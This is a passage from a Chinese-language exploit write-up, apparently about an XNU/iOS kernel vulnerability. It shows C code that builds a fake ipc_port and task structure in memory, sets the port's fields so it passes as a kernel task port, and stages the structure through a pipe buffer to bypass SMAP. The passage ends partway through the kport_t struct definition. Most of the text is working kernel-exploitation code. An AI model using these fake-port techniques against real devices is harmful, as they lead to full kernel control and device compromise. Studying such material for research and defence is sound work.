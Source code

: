 除了`fds`之外，额外申请一个`port_fds`用于绕过SMAP的限制

```c
int port_fds[2] = {-1, -1};
if (SMAP) {
    ret = pipe(port_fds);
}
```

当我们获得一个填充满了Port内核态地址的内核缓冲区`pipe_buffer`之后，就需要构造一个`ipc_port`结构体了

将结构体`ipc_port`和`task`放在了连续的一片内存空间，构建完之后刷一遍`port_fds`缓冲区

```c
kport_t *fakeport = malloc(sizeof(kport_t) + 0x600);
ktask_t *fake_task = (ktask_t *)((uint64_t)fakeport + sizeof(kport_t));
bzero((void *)fakeport, sizeof(kport_t) + 0x600);

fake_task->ref_count = 0xff;
fakeport->ip_bits = IO_BITS_ACTIVE | IKOT_TASK;
fakeport->ip_references = 0xd00d;
fakeport->ip_lock.type = 0x11;
fakeport->ip_messages.port.receiver_name = 1;
fakeport->ip_messages.port.msgcount = 0;
fakeport->ip_messages.port.qlimit = MACH_PORT_QLIMIT_LARGE;
fakeport->ip_messages.port.waitq.flags = mach_port_waitq_flags();
fakeport->ip_srights = 99;
fakeport->ip_kobject = 0;
fakeport->ip_receiver = ipc_space_kernel;

if (SMAP) {
    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);
    read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);
}
```

申请空间时的`kport_t`为作者构造的一个`ipc_port`结构体

```c
typedef volatile struct {
    uint32_t ip_bits;
    uint32_t ip_references;
    struct {
        uint64_t data;
        uint64_t type;
    } ip_lock; // spinlock
    struct {
        struct {
            struct {
                uint32_t flags;
                uint32_t waitq_interlock;
                uint64_t waitq_set_id;
                uint64_t waitq_prepost_id;
                struct {
                    uint64_t next;
                    uint64_t prev;
                } waitq_queue;
            } waitq;
            uint64_t messages;
            uint32_t seqno;
            uint32_t receiver_name;
            uint16_t msgcount;
            uint16_t qlimit;
            uint32_t pad;
        } port;
        uint64_t klist;
    } ip_messages;
```